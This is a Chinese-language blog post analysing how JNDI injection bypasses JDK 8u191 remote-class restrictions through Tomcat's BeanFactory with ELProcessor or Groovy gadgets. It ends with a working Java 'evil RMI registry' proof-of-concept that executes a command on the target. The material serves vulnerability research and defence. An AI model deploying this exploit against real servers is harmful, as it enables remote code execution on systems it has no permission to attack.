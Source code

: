 之前在Veracode的这篇博客中https://www.veracode.com/blog/research/exploiting-jndi-injections-java看到对于JDK 1.8.0_191以上版本JNDI注入的绕过利用思路，简单分析了下绕过的具体实现，btw也记录下自己的一些想法，本文主要讨论基于Reference对象的利用。

## The Past

JDK版本：1.8.0_20

产生JNDI注入的原因简单来说是lookup方法参数可控，我们首先在Registry中绑定特殊构造的Reference对象，如下图所示，其中factoryLocation是我们远程类的地址。

![img](https://img2018.cnblogs.com/blog/1523493/201906/1523493-20190621191524788-1247377038.png)

然后将我们Registry的地址传入lookup方法中，下图是低版本JDK中JNDI注入payload的触发过程，lookup方法中调用了decodeObject方法，又进入到NamingManager.getObjectInstance方法

![img](https://img2018.cnblogs.com/blog/1523493/201906/1523493-20190621191606020-657623790.png)

![img](https://img2018.cnblogs.com/blog/1523493/201906/1523493-20190621191618698-961161623.png)

在getObjectInstance方法中319行，首先调用了getObjectFactoryFromReference方法，然后又调用了factory对象的getObjectInstance方法

![img](https://img2018.cnblogs.com/blog/1523493/201906/1523493-20190621191629086-1027917350.png)

在getObjectFactoryFromReference方法中动态加载了我们的远程类并将其实例化，而远程类是我们完全可控的，实例化的过程中会进行类的初始化并调用其构造方法，这就导致静态代码块或构造方法中的代码得以执行。

![img](https://img2018.cnblogs.com/blog/1523493/201906/1523493-20190621191637870-2144693487.png)

## The Present

JDK版本：1.8.0_191

高版本JDK对JNDI注入类威胁的防护主要体现在**限制了远程类的加载**，在decodeObject方法中，调用NamingManager.getObectInstance方法前加入了对factoryLocation和trustURLCodebase的判断，trustURLCodebase默认为false，如图所示，

![img](https://img2018.cnblogs.com/blog/1523493/201906/1523493-20190621191645640-758650129.png)

多个判断语句是与的逻辑关系，则可构造**factoryLocation == null**，使程序进入NamingManager.getObjectInstance方法，然后进入到getObjectFactoryFromReference方法中进行类的加载和实例化，如下图所示这块儿的逻辑是这样的，首先通过本地的类加载器去classpath中加载目标类，若classpath中无目标类的定义，则调用loadClass(factoryName, codebase)远程加载我们构造的特定类，类加载完成后通过反射将其实例化，然后在调用该对象的**getObjectInstance**方法。

![img](https://img2018.cnblogs.com/blog/1523493/201906/1523493-20190621191651721-1378867517.png)

但是若构造factoryLocation为空绕过trustURLCodebase的限制，则无法通过loadClass(factoryName, codebase)远程加载我们构造的特定类。

这时整体的绕过思路变成了加载一个目标机器classpath中存在的类，然后将其实例化，调用其getObjectInstance方法时实现代码执行。

```java
public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                                    Hashtable<?,?> environment)
        throws Exception;
}
```

这个类首先要实现ObjectFactory接口，并且其getObjectInstance方法实现中有可以被用来构造exp的逻辑。

Veracode的博客中使用了org.apache.naming.factory.BeanFactory类，Tomcat容器本身是被广泛使用的，所以可利用性还是很强的。其RMIServer实现如下：

![img](https://img2018.cnblogs.com/blog/1523493/201906/1523493-20190621191701774-1436411563.png)

下面具体分析下BeanFactory类getObjectInstance方法实现，其参数中obj、name可控。

首先在前半部分代码从obj中取出我们构造的Reference对象，加载了我们指定的类并通过newInstance()调用指定类的无参构造方法将其实例化，

```java
Reference ref = (Reference) obj;
String beanClassName = ref.getClassName();
Class<?> beanClass = null;
ClassLoader tcl = 
    Thread.currentThread().getContextClassLoader();
if (tcl != null) {
    try {
        beanClass = tcl.loadClass(beanClassName);
    } catch(ClassNotFoundException e) {
    }
} else {
    try {
        beanClass = Class.forName(beanClassName);
    } catch(ClassNotFoundException e) {
        e.printStackTrace();
    }
}
·····
Object bean = beanClass.newInstance();
```

然后取出key为“forceString”的RefAddr对象中的content，对其进一步解析，content是字符串，其中可以指定多个方法用逗号分隔，如”x=eval,y=run“，解析时会将eval方法和run方法放入HashMap对象中

```java
RefAddr ra = ref.get("forceString");
Map<String, Method> forced = new HashMap<String, Method>();
String value;

if (ra != null) {
    value = (String)ra.getContent();
    Class<?> paramTypes[] = new Class[1];
    paramTypes[0] = String.class;
    String setterName;
    int index;

    /* Items are given as comma separated list */
    for (String param: value.split(",")) {
        param = param.trim();
        /* A single item can either be of the form name=method
         * or just a property name (and we will use a standard
         * setter) */
        index = param.indexOf('=');
        if (index >= 0) {
            setterName = param.substring(index + 1).trim();
            param = param.substring(0, index).trim();
        } else {
            setterName = "set" +
                         param.substring(0, 1).toUpperCase(Locale.ENGLISH) +
                         param.substring(1);
        }
        try {
            forced.put(param,
                       beanClass.getMethod(setterName, paramTypes));
```

接下来会通过反射执行我们指定的之前构造的方法，并可以传入一个字符串类型的参数

```java
Enumeration<RefAddr> e = ref.getAll();

while (e.hasMoreElements()) {
    
    ra = e.nextElement();
    String propName = ra.getType();
    
    if (propName.equals(Constants.FACTORY) ||
        propName.equals("scope") || propName.equals("auth") ||
        propName.equals("forceString") ||
        propName.equals("singleton")) {
        continue;
    }
    
    value = (String)ra.getContent();
    
    Object[] valueArray = new Object[1];
    
    /* Shortcut for properties with explicitly configured setter */
    Method method = forced.get(propName);
    if (method != null) {
        valueArray[0] = value;
        try {
            method.invoke(bean, valueArray);
        }
```

总结一下实现代码执行的几个条件，首先要注入一个含有**无参构造方法**的beanClass，当然这个beanClass要classpath中存在的，其次beanClass中要有直接或间接执行代码的方法，并且方法只能传入一个字符串参数。

Veracode的博客中构造的beanClass是javax.el.ELProcessor，ELProcessor中有个eval(String)方法可以执行EL表达式，正好符合上述条件，当然也是有限制的，javax.el.ELProcessor本身是Tomcat8中存在的库，所以仅限Tomcat8及更高版本环境下可以通过javax.el.ELProcessor进行攻击，对于使用广泛的SpringBoot应用来说，可被利用的[Spring Boot Web Starter](https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-web)版本应在**1.2.x**及以上，因为**1.1.x**及**1.0.x**内置的是Tomcat7。

## The Future

除了javax.el.ELProcessor，当然也还有很多其他的类符合条件可以作为beanClass注入到BeanFactory中实现利用。举个例子，如果目标机器classpath中有groovy的库，则可以结合之前Orange师傅发过的Jenkins的漏洞实现利用https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html，直接给出RMIRegistry的代码：

```java
public static void main(String[] args) throws Exception {
    System.out.println("Creating evil RMI registry on port 1097");
    Registry registry = LocateRegistry.createRegistry(1097);
    ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
    ref.add(new StringRefAddr("forceString", "x=parseClass"));
    String script = "@groovy.transform.ASTTest(value={\n" +
        "    assert java.lang.Runtime.getRuntime().exec(\"calc\")\n" +
        "})\n" +
        "def x\n";
    ref.add(new StringRefAddr("x",script));

    ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
    registry.bind("Object", referenceWrapper);
}
```

如果能有一个JDK中的类符合条件，可攻击面就更大了，可惜我在尝试构造exp的过程中并没有找到相关可利用的类，但是与第三方库的组合利用方法还是很多的，上面只是举了其中一个例子，感兴趣的朋友可以一起探讨，上述代码地址：https://github.com/welk1n/JNDI-Injection-Bypass
